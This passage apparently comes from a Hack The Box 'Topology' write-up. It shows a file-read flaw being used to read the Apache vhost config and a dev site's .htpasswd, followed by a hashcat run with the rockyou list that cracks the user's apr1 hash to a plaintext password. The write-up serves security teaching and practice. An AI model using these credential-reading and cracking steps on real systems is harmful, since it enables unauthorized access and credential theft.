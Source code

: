 ![image-20230906213842020](https://0xdf.gitlab.io/img/image-20230906213842020.png)

### Access to dev

#### Enumerate VHosts

With file read, one useful thing to look at is the Apache configuration. The default location is `/etc/apache2/sites-enabled/000-default.conf`

![](https://0xdf.gitlab.io/img/topology-000-default.png)

![expand](https://0xdf.gitlab.io/icons/expand.png)

This shows four hosts, all with admin email of `vdaisley@topology.htb`:

- `topology.htb` \- root in `/var/www/html`
- `latex.topology.htb` \- root in `/var/www/latex`
- `dev.topology.htb` \- root in `/var/www/dev`
- `stats.topology.htb` \- root in `/var/www/stats`

There’s not much going on with any of the servers.

#### Get Password Hash

The dev site required auth. Typically on Apache if the site password isn’t configured in the server config, it’s configured via an `.htaccess` file. Reading `/var/www/dev/.htaccess` returns:

![image-20230906214911221](https://0xdf.gitlab.io/img/image-20230906214911221.png)

The `AuthUserFile` defines that access. Reading `/var/www/dev/.htpasswd` shows the hash:

![image-20230906214948812](https://0xdf.gitlab.io/img/image-20230906214948812.png)

I’ll use an online OCR site to get this most of the way, checking each character manually to make sure it’s correct:

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

```

#### Crack Hash

I’ll feed this into `hashcat` and it cracks immediately:

```
$ hashcat vdaisley.hash --username /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR) | FTP, HTTP, SMTP, LDAP Server
...[snip]...
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
...[snip]...

```
